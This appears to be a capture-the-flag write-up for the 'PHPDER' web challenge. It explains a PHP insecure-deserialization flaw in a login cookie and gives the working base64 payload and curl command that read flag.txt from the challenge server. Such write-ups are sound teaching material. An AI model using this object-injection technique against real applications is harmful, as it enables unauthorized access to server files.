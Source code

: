 # PHPDER Writeup

> Flag: FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}

At first glance it is a login page:

![image](https://user-images.githubusercontent.com/80664686/117576250-66aa6180-b10f-11eb-8036-3bdadc9e0a61.png)

I tried a bit of SQL injection but there's just some <span style="color:red">*Invalid Login*</span> error

Ran `gobuster` to do some recon and found `/backup.zip` file. Unzip it and there're the sources of the web

File: [backup.zip](files/phpder_backup.zip)

## Overview code explaination

In `index.php`:
1. Run `cookie.php`
2. If we send a post message with 2 parameters: ***user** & **pass** --> create a new object `permission(user, pass)`
3. Check if the user is guest or admin
4. **Serialize** the object and encode with **base64**
5. Goto `authentication.php`

In `cookie.php`:
1. Create a new class **permission**. P/S: If you're familiar with *object oriented programming*, you should be easily understand it
2. Unserialize the **login** cookie, check if it's guest or admin
3. If cannot unserialize! --> print the object to screen

In `authentication.php`:
1. Create class **access_log** 
2. If it's admin --> append to log file

## Exploitation
By looking at this block:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
> If cannot unserialize! --> print the object to screen

If you try to serialize yourself on local enviroment `$php -a`, you'll get something like this:
> TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO047czo4OiJwYXNzd29yZCI7Tjt9

Base64 decode, which is the serialized object:
> O:11:"permissions":2:{s:8:"username";N;s:8:"password";N;}

By default, the website will serialize **permission** object then deserialize it. 

What if... we change **permission** object to **access_log** object?

Serialized **access_log**:
> O:10:"access_log":1:{s:8:"log_file";s:8:"flag.txt";}

`flag.txt` is just a guess by the way 😛

Base64 encode:
> TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo=

Now we need to add the cookie and let it run the *print object* in `cookie.php`, but we need to request to `authentication.php` first to load the object structure.

```fish
$ curl http://chall4.ctf.night-wolf.io/authentication.php -b 'login="TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo="'
Deserialization error. FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}
```
✨✨✨

[Go back](/)
